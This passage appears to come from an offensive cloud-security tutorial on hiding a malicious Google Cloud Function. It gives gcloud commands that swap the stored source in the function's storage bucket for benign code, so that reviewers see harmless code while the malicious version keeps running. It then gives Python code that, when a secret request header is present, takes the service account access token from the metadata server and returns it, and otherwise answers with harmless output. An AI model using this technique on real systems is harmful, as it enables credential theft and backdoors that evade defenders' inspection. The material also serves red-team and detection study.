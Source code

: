 3. Copy the Non-Malicious Source Code from Local Machine to the "<function_name>-<unique_identifier>/version-1/" folder in the "gcf-sources-<project_number>-<region>" bucket on Google Cloud Storage. This will replace the Malicious Source Code with the Non-Malicious Source Code.

Command:

```powershell
gcloud storage cp <local-path-of-non-malicious-sourcecode> gs://gcf-sources-<project_number>-<region>/<function_name>-<unique_identifier>/version-1/
# or
gsutils cp <local-path-of-non-malicious-sourcecode> gs://gcf-sources-<project_number>-<region>/<function_name>-<unique_identifier>/version-1/
```

<p><img src="https://drive.google.com/uc?id=1xzQoEFDkcrDgV1DII81hcQH52Oy0hk6X"></p>

Now when the Function is examined the Source Code would look Non-malicious.

<p><img src="https://drive.google.com/uc?id=1FKRS1M8YqT3YdV4VR5AEhAFpyxeE_48n"></p>

Let's invoke the Cloud Function and see which code is being executed.

<p><img src="https://drive.google.com/uc?id=1OAkVb8x-Zq-mD6oe9kZYxRxeN40iQg1j"></p>

Upon looking at the Source Code we can see that the Source Code looks Non-Malicious. But when we invoke the Cloud Function, the Malicious Source Code is being executed. 

Now there's a problem with that. The Cloud Function looks Non-malicious but upon invocation the malicious code is being executed. It does hide the Source Code but still there's an artifact left which is the Malicious Cloud Function Output. If someone invokes or the Cloud Function is triggered by any means the Malicious Code's Output would be revealed, which can raise suspicions. We can give the Role "Cloud Function Invoker" to our principal and give us the only permission to invoke the Cloud Function. But anyone with the required permissions can change the Cloud Function permissions and invoke the Cloud Function. So how do we hide the Malicious output from everyone else?

Well we can modify our code to introduce conditions to check the presence of a certain header and header value in the request. If the header is present and the header value is correct, the malicious code will be executed. If the header is not present or if the header is present but the value is wrong, the non-malicious code will be executed. 

#### We will modify the [Malicious code](#in-our-case-the-malicious-and-non-malicious-source-code-are-given-below) now to introduce the conditions.

```python
# Malicious Source Code
# filename: main.py
import requests

def anirban(request):
    if request.headers.get('my-header') == 'anirban-gcp':
        metadata_server_url = "http://169.254.169.254/computeMetadata/v1"
        metadata_key_url = f"{metadata_server_url}/instance/service-accounts/default/token"
        metadata_headers = {"Metadata-Flavor": "Google"}
        response = requests.get(metadata_key_url, headers=metadata_headers)
        access_token = response.text
        return access_token
    else:
        request_json = request.get_json()
        if request.args and 'message' in request.args:
            return request.args.get('message')
        elif request_json and 'message' in request_json:
            return request_json['message']
        else:
            return f'Hello World!'
```
